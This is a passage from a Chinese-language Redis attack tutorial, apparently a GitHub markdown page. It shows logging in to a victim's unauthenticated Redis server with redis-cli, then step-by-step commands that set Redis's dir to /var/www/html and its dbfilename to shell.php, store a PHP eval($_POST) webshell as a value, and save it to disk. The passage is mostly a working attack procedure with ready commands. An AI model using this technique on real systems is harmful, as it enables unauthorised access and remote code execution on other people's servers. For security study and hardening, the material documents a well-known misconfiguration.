 在攻击机上使用`Redis`客户端直接无账号成功登录受害机上的`Redis`服务端, 并且成功列出服务端`Redis`的信息:

```bash
redis-cli -h 192.168.249.145
```

<div align=center><img src="./Redis%20攻击方式/5.png"></div>

### 利用 Redis 写入 Webshell
利用条件:
 - 服务端的`Redis`连接存在未授权, 在攻击机上能用`redis-cli`直接登陆连接, 并未设置登陆验证.
 - 服务端存在开启的`Web`服务器, 并且知道`Web`目录的路径, 具有文件读写增删改查权限.

利用原理:
 - 在数据库中插入一条`Webshell`数据, 将此`Webshell`的代码作为`value`, `key`值随意, 然后通过修改数据库的默认路径为`/var/www/html`和默认的缓冲文件`shell.php`, 把缓冲的数据保存在文件里, 这样就可以在服务器端的`/var/www/html`目录下生成一个`Webshell`.

利用方式:
 - 将`dir`设置为`/var/www/html`目录, 将指定本地数据库存放目录设置为`/var/www/html`, 将`dbfilename`设置为文件名`shell.php`, 即指定本地数据库文件名为`shell.php`, 再执行`save`或`bgsave`, 则可以写入一个路径为`/var/www/html/shell.php`的`Webshell`文件.

操作步骤:

```bash
config set dir /var/www/html/ 
config set dbfilename shell.php
set xxx "\r\n\r\n<?php eval($_POST[h3]);?>\r\n\r\n"     // 用redis写入文件的会自带一些版本信息, 如果不换行可能会导致无法执行
save
```

<div align=center><img src="./Redis%20攻击方式/6.png"></div>
